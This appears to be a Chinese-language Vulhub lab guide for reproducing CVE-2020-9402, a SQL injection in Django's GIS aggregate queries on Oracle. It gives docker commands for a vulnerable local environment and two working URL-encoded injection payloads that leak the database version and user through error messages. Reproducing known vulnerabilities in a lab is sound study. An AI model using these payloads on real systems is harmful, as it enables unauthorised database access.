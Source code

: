 # Django GIS SQL 注入漏洞 CVE-2020-9402

## 漏洞描述

Django 在 2020 年 3 月 4 日发布了一个安全更新，修复了在 GIS 查询功能中存在的 SQL 注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了 GIS 中聚合查询的功能，用户在 oracle 的数据库且可控 tolerance 查询时的键名，在其位置注入 SQL 语句。

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

### 漏洞一

首先访问 `http://your-ip:8000/vuln/`。

在该网页中使用 `get` 方法构造 `q` 的参数，构造 SQL 注入的字符串 `20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

```
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
```

可见，括号已注入成功，SQL 语句查询报错：

![img](images/1.png)

### 漏洞二

访问 `http://your-ip:8000/vuln2/`。 在该网页中使用 `get` 方法构造 `q` 的参数，构造出 SQL 注入的字符串 `0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
```

![img](images/2.png)
